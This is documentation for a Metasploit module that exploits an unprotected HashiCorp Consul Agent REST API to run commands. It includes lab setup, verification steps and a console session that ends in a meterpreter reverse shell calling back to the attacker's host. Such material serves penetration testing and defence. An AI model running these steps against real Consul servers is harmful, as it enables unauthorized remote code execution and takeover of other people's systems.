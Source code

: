 Hashicorp Consul Agent is serving a REST API which can be used to execute scripts on a regular basis.
By default, this endpoint is not protected and anyone can add their own command line.

## Vulnerable application

Grab the Consul prebuilt binary [here](https://www.consul.io/downloads.html) and run the binary in dev mode with check scripts enabled:
```
$ ./consul agent -dev -enable-script-checks
```

This is sufficient to test the module.

## Verification Steps


Confirm that check functionality works:
- [ ] Start Consul Agent without the check scripts enabled: `./consul agent -dev`
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/misc/consul_agent`
- [ ] Set the `RHOST`.
- [ ] Confirm the target is *not* vulnerable: `check`
- [ ] Observe that the target is *not* vulnerable: `The target is not exploitable`
- [ ] Restart Consul Agent with the check scripts enabled: `./consul agent -dev -enable-script-checks`
- [ ] Confirm the target is vulnerable: `check`
- [ ] Confirm that the target is vulnerable: `The target is vulnerable.`

Confirm that command execution functionality works:
- [ ] Set a payload: `set payload linux/x86/meterpreter/reverse_tcp`
- [ ] Set `LHOST` and `LPORT`
- [ ] Run the exploit: `run`
- [ ] Confirm you have now a meterpreter session

## Options

**TARGETURI**

The path to the Consult REST API. By default, the path is `/`.

**ACL_TOKEN**

If the API is protected by a token and you have this token, you can set its value to make the REST API calls work.


## Scenarios

### Meterpreter reverse tcp

In this example, the Consul instance is protected by an *ACL token*:
```
msf5 > use exploit/multi/misc/consul_agent 
msf5 exploit(multi/misc/consul_agent) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 exploit(multi/misc/consul_agent) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/misc/consul_agent) > set LPORT 12345
LPORT => 12345
msf5 exploit(multi/misc/consul_agent) > set ACL_TOKEN FBAF54CC-E03D-4763-9F19-376114D3857B
ACL_TOKEN => FBAF54CC-E03D-4763-9F19-376114D3857B
msf5 exploit(multi/misc/consul_agent) > check 
[+] 192.168.56.101:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_agent) > run

[*] Started reverse TCP handler on 192.168.56.1:12345 
[+] The shell is on the way!
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Sending stage (861480 bytes) to 192.168.56.101

meterpreter > sysinfo 
Computer     : 192.168.56.101
OS           : Debian 9.4 (Linux 4.9.0-6-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
